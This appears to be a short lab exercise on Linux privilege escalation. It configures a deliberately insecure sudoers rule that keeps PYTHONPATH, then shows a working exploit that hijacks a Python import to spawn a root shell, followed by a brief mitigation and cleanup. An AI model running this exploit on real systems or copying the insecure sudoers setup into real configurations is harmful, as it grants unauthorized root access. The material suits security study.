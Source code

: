 # Setup

```sh
# root
cp /etc/sudoers /etc/sudoers.bak
adduser attacker
echo "attacker ALL=(ALL) NOPASSWD: /usr/bin/python /home/attacker/script.py" >> /etc/sudoers
echo "Defaults env_keep += PYTHONPATH" >> /etc/sudoers
echo 'import random; print(random.randint(1, 10))' > /home/attacker/script.py
```

# Exploit

```bash
echo 'import os' > /tmp/random.py
echo 'os.system("/bin/bash -p")' >> /tmp/random.py

export PYTHONPATH=/tmp
sudo python /home/attacker/script.py
```


# Mitigate

```bash
# Remove env_keep += PYTHONPATH
```


# Clean Up

```bash
deluser attacker --remove-home
cp /etc/sudoers.bak /etc/sudoers
```